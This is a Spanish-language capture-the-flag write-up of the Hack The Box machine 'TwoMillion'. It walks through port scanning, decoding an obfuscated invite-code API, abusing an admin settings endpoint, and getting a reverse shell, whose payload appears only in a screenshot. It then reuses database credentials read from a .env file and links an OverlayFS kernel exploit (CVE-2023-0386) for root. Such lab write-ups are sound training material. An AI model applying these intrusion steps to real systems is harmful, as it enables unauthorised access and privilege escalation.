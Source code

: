 ```yaml
---
title: TwoMillions Writeup
published: true
---
```


Hoy haremos la máquina "TwoMillions" de Hack The Box. Esta máquina se publicó cuando la plataforma llegó a los 2 millones de usuarios, es una máquina fácil con sistema operativo linux, la intrusión es algo complicada pero la escalada de privilegios es fácil.

![TwoMillion](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/d50c6709-5fb7-4fe1-9472-adc8d2ac3c95)

# Enumeración

Comenzando con la enumeración podemos ver que tiene el puerto 22 y el 80 con un framework "nginx"

```nmap
nmap -sCV -T4 10.10.11.221

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-25 15:41 CEST
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds
```

Intentamos acceder al puerto 80 y vemos que redirige a "2million.htb", para poder acceder tendremos que añadir la ip en nuestro /etc/hosts

![1a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/3413cf9a-9aa1-43ca-a11f-03cf66cb792b)

Para añadirlo en el /etc/hosts tendremos que usar nano o algo que nos permita escribir en el archivo

```bash
sudo nano /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.10.11.221    2million.htb

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

Dentro de la página web nos puede interesar la parte de "login" y de "join". Si intentamos iniciar sesión no vamos a poder aunque intentemos una inyección SQL. Tendremos que crearnos una cuenta en el apartado de "login"

![2a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/ee7689ed-09ef-44a7-85c9-1217cfe570ef)

Dentro de "login" vemos que necesitamos un código de invitación pero si miramos dentro del código de la página vemos que en el apartado "Debugger" existe un script en JavaScript llamado "inviteapi.min.js" que está ofuscado. Utilizando [Js-beautifier](https://beautifier.io/) podemos ver mejor el código y vemos que utiliza una función llamada "makeInviteCode"

```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

La ejecutamos desde la consola del navegador y obtendremos esto:

![3a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/3b4c4081-c536-4aab-8a38-a4bd6f64a267)

Podemos ver que la frase esta encriptada en "ROT13". Para desencriptarla podemos usar [Cyberchef](https://gchq.github.io/CyberChef/) y obtendremos la siguiente frase "In order to generate the invite code, make a POST request to /api/v1/invite/generate"

Entonces con "curl" haremos un POST a esa url para generar un código.

```curl
curl -X POST 2million.htb/api/v1/invite/generate

{"0":200,"success":1,"data":{"code":"VERFUUctOEhLUUotOVgyNk4tS1Q4SUo=","format":"encoded"}}
```

Este código también esta encriptado pero esta vez en base64 (porque el código es corto y tiene un "=" al final), así que volvemos a usar [Cyberchef](https://gchq.github.io/CyberChef/) y obtenemos un codigo de invitación para poder crear nuestra cuenta.

# Explotación

Dentro de la pagina web lo más importante que podemos encontrar es el apartado de "Access", hay dos botones que nos puede interesar, capturamos la petición de "generate" y la mandamos al apartado de "Repeter". Este proceso puede aparecer algún error, para solucionarlo tendremos que ejecutar "burpsuite" como usuario administrador.

![4a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/9c5c0d3e-cadd-459c-8551-fd625d1bfae6)

Si hacemos una petición a /api/v1 podemos ver todas las rutas y ver si podemos ver algunas rutas peligrosas

![5a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/50d1a2cf-3ffd-4f2d-85c8-f04870cb984c)

Después de mucho tiempo descubro que en /api/v1/admin/settings/update podemos actualizar nuestra cuenta a admin.

![6a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/517f3b68-12c6-47ee-94b8-c51a1d45a737)

Ahora probamos si podemos crear una revershell en el apartado /api/v1/admin/vpn/generate.

![7a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/f6bc68cd-caca-4c6f-b524-cbb86f8c985d)

Una vez dentro, somos el usuario "www-data" y podemos ver en el archivo ".env" podemos ver el usuario y la contraseña del SSH

```bash
www-data@2million:~/html$ cat .env 

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Para cambiar de usuario utilizamos el comando

```bash
www-data@2million:~/html$ su - admin
Password: SuperDuperPass123
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

Y en su carpeta podremos encontrar la user.txt

# Escalada de privilegios

Empezamos viendo que puede acceder el usuario "admin"

```bash
admin@2million:~$ find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys 
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
```

Vemos el archivo /var/mail/admin y dentro podemos ver que el ssh utiliza "OverlayFS". Buscamos vulnerabilidades y encontramos el siguiente github (https://github.com/xkaneiki/CVE-2023-0386/) 

Para ejecutarlo tendremos que tener 2 consolas con la misma sesión y seguir los pasos del github en la maquina victima.

![8a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/4fdbc373-686f-4eac-a660-25953b1e3b16)

![9a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/7fef433f-08fe-4332-aa67-2ede949d2862)

Accedemos a la carpeta /root y conseguiriamos el root.txt para finalizar la máquina
